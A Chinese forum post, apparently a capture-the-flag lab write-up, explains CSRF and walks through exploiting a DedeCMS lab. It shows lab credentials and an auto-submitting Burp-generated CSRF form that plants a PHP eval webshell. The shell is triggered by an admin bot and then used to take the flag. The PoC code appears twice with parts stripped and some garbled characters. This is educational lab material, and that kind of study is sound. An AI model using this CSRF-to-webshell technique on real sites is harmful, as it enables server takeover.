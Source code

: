 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.52pojie.cn](https://www.52pojie.cn/thread-1498103-1-1.html)

> [md]# 前言> - 前端渗透 / CSRF，学习一下！# CSRF 跨站请求伪造了解 csrf 跨站请求伪造：也被称为 “one click attack” 或者 sessingriding，通常缩写为 csrf 或者......

 ![](https://avatar.52pojie.cn/data/avatar/001/63/96/37_avatar_middle.jpg) 孤樱懶契 _ 本帖最后由 孤樱懶契 于 2021-8-22 08:28 编辑_  

前言
==

> *   前端渗透 / CSRF，学习一下！

CSRF 跨站请求伪造了解
=============

csrf 跨站请求伪造：也被称为 “one click attack” 或者 sessingriding，通常缩写为 csrf 或者 xsrf，是一种对网站的恶意利用。尽管听起来像跨站脚本 (xss) 但它与 xss 非常不同，xss 利用的是站点内的信任用户，而 csrf 是通过伪装来自受信任的用户的请求来利用受信任的网站。与 XSS 攻击相比，CSRF 攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比 XSS 更具危险性。

用户只要不关闭阅览器或者退出登录的时候，如果用户无意间点开了构造好的 csrf 脚本的链接，可能会用户不想做的事（通过恶意的 js 代码可以操纵阅览器去发送修改用户信息的数据包给正常的网站）  
（因为用户访问正常网站时会产生 cookie，，而用户没有关闭或者退出登陆，所以这个 cookie 还没有失效，所以就会很容易的进入正常网站去修改用户的信息）

构造 csrf 恶意网站方法
--------------

Burp 有自己构造 csrf poc 的功能，在让用户访问这个构造好的网页

靶场环境
----

> **不用下源码，直接用这个测试 csrf，poc 的作用**
> 
> 织梦管理登陆：[http://59.63.200.79:8010/csrf/uploads/dede/login.php](http://59.63.200.79:8010/csrf/uploads/dede/login.php)
> 
> 登陆方式：admin admin123
> 
> **这个织梦网站，是我们提交问题反馈，机器人访问从而 getshell 的网站**
> 
> [http://59.63.200.79:8010/newcsrf/](http://59.63.200.79:8010/newcsrf/)
> 
> 问题反馈：[http://59.63.200.79:8010/newcsrf/test/](http://59.63.200.79:8010/newcsrf/test/)
> 
> 分析，提示是织梦 cms，应该是发给管理员访问，然后直接写一句话，因为管理员页面无法访问。

**由于找历史源码很麻烦，所以就不本地测试，直接用提供的第一个有账号密码的织梦靶场来测试是否存 CSRF**

首先登陆之后，进入文件式管理器，写一句话木马抓包看看

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818102059506.png)

发现并没有 token，或者验证码等限制，可以利用 BURP 的 POC 生成 CSRF

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818102229457.png)

创建一个 test.html 来存储，来测试

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818120547059.png)
> 
> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818120627673.png)

**打开刚刚新建的 test.html，点击 submit 测试**

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818120706491.png)

成功生成 shell

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818120740891.png)

**但是这种需要我们自己点 submit 的方式一般没人会点，所以我们调成自动访问，加一个 name:aa，然后 document.aa.submit() 直接提交实现自动提交，无需点击**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form >
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden" <?php eval($_REQUEST[1]);?>" />
      <input type="hidden"   ±￡ ′?  " />
      <input type="submit" value="Submit request" />
    </form>
        <script>
                document.aa.submit();
        </script>
  </body>
</html>


```

**既然测试环境已经成功实现了 csrf，我们可以尝试获取一下 newcsrf 靶场的实战，接着通过目录扫描获取了 newcsrf 的文件操作目录** [http://59.63.200.79:8010/newcsrf/dede/file_manage_control.php，将 poc 中的 action 改成 newcsrf 的文件操作目录就可以提交了（注意：上传的一句话木马路径也要改对](http://59.63.200.79:8010/newcsrf/dede/file_manage_control.php，将poc中的action改成newcsrf的文件操作目录就可以提交了（注意：上传的一句话木马路径也要改对) ）

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818124106553.png)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form >
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden"  />
      <input type="hidden" <?php eval($_REQUEST[1]);?>" />
      <input type="hidden"   ±￡ ′?  " />
      <input type="submit" value="Submit request" />
    </form>
        <script>
                document.aa.submit();
        </script>
  </body>
</html>

```

**因为我们可能没有公网，所以靶场提供了一个可以上传 html 的地方，在问题反馈页面**

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818121820266.png)

上传刚刚我们得到 poc，看看是否存在，记得确认是否存在

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818121848947.png)

**确认好了，就可以上传 shell 到主页了，问题反馈一下，让机器人访问一下**

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818123847788.png)

**接着我们就可以在我们上传的路径看到 shell 了**

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818123927992.png)

**下面基操，蚁剑连接，拿 flag**

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210818124250106.png)

我的个人博客
======

> 孤桜懶契：[http://gylq.gitee.io](http://gylq.gitee.io)
> -------------------------------------------------